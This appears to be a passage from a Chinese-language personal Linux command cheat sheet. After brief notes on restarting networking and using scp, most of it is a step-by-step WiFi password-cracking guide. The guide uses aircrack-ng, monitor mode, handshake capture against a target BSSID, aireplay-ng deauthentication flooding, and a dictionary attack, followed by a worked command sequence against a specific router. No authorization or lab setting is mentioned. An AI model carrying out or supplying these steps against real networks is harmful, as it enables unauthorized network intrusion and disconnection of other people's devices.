 ### 重启网络服务

```
sudo systemctl restart networking
```

## 文件的传输

- `scp -r remote_username@remote_ip:remote_folder local_folder`

## wifi 密码的破解

- `sudo apt install aircrack-ng`
    - 安装破解 WiFi 密码的软件
- `ip addr`
    - 查看可用的无线网卡
- `sudo airmon-ng start <无线网卡名>`
    - 开启网线网卡的监听，此时的网卡失去正常的网络连接能力
- `ip addr`
    - 再次查看可用的无线网卡，开启监听后的无线网卡将会变为 `<无线网卡名>+mon`
- `sudo airodump-ng <开启监听后的无线网卡名>
    - 查看 wifi 列表，获得目标 wifi 的 mac 地址和信道
- `sudo airodump-ng -w <扫描结果保存的文件名> -c <信道> --bssid <目标wifi的mac地址> <开启监听后的无线网卡名>`
    - 开始捕获无线网络数据包，执行此命令后在新的窗口执行下条命令，本条命令在执行下条命令后再退出。退出后将会在<扫描结果保存的文件名>路径生成包含握手包的 cap 文件。此文件用来执行破解程序
- `sudo aireplay-ng -0 0 -a <目标wifi的mac地址> <开启监听后的无线网卡名>` 或者 `sudo aireplay-ng -0 0 -a <目标wifi的mac地址> -c <该wifi链接者的mac地址> <开启监听后的无线网卡名>`
    - 对目标设备发起攻击，执行后在上条命令的窗口查看，`][ Elapsed: 12 s ][ 2018-10-07 18:49` 后面多了 `][ WPA handshake: 22:47:DA:62:2A:F0`，此时关闭上条命令
- `aircrack-ng -w 密码字典 <包含握手包的 cap 文件>`
    - 执行破解
- `sudo airmon-ng stop <开启监听后的无线网卡名>`
    - 关闭网线网卡的监听，关闭后的无线网卡才能正常连接 wifi

```sh
sudo airmon-ng

sudo airmon-ng start wlp1s0

sudo airodump-ng wlp1s0mon

sudo airodump-ng -w Y -c 12 --bssid BC:54:FC:2C:8E:54 wlp1s0mon

sudo aireplay-ng -0 0 -a BC:54:FC:2C:8E:54 wlp1s0mon

sudo aircrack-ng -w word.txt nobyrouter-02.cap

sudo airmon-ng stop wlp1s0mon
```

## Tmux
